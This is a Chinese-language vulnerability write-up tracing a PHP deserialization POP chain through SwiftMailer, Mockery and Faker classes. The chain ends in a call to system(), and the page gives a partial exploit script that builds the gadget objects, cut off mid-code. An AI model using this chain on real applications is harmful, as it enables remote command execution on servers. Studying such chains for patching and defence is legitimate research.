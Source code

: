 ![undefined](https://p4.ssl.qhimg.com/t016d292a9d69431ac1.png "undefined")

## POP链-8
跟进`lib/classes/Swift/KeyCache/DiskKeyCache.php`中的`__destruct()`方法，这里的`$this->_keys`是可控的

![undefined](https://p3.ssl.qhimg.com/t013ca6184c5c91be9d.png "undefined")

继续看看 foreach 中调用的`clearAll()`方法，当`array_key_exists()`判断为 true 时进入 foreach，接着调用`clearKey()`方法，进入 if 判断后调用`hasKey()`方法，由于这里的`$this->_path`是可控的，因此可以给其赋值为一个类名从而触发该类中的`__toString()`方法

![undefined](https://p4.ssl.qhimg.com/t012a9c30fd94199e4b.png "undefined")

这里可以选择`library/Mockery/Generator/DefinedTargetClass.php`中的`__toString()`方法作为触发的点，其先会调用`getName()`方法，且该方法中的`$this->rfc`是可控的，因此可以来触发一个没有`getName()`方法的类从而来触发该类中的`__call()`方法

![undefined](https://p5.ssl.qhimg.com/t014698c2b0cbc67092.png "undefined")

全局搜索`__call()`方法，跟进`src/Faker/ValidGenerator.php`中的`__call()`方法，其 while 语句内的`$this->validator`是可控的，当`$res`能够是命令执行函数的参数时即可触发命令执行 RCE，由于`$this->generator`也是可控的，因此可以寻找一个能够有返回参数值的方法类来达到返回命令执行函数参数的目的从而 RCE

![undefined](https://p0.ssl.qhimg.com/t017d6656e10983d2b4.png "undefined")

这里可以用`src/Faker/DefaultGenerator.php`来做触发点，当前面设置的方法不存在时这里就会触发到`__call()`方法，从而返回可控参数`$this->default`的值
 
![undefined](https://p1.ssl.qhimg.com/t01a495401089c8e278.png "undefined")

### exp
```php
<?php 
namespace Faker {
    class DefaultGenerator {
        protected $default;
        public function __construct($payload) {
            $this->default = $payload;
        }
    }
    class ValidGenerator {
        protected $generator;
        protected $validator;
        protected $maxRetries;
        public function __construct($payload) {
            $this->generator = new DefaultGenerator($payload);
            $this->validator = "system";
            $this->maxRetries = 1; // 不设置值的话默认是重复10000次
        }
    }
}

namespace Mockery\Generator {
    use Faker\ValidGenerator;
    class DefinedTargetClass {
        private $rfc;
        public function __construct($payload) {
            $this->rfc = new ValidGenerator($payload);
        }
    }
}

namespace {
    use Mockery\Generator\DefinedTargetClass;
    class Swift_KeyCache_DiskKeyCache {
```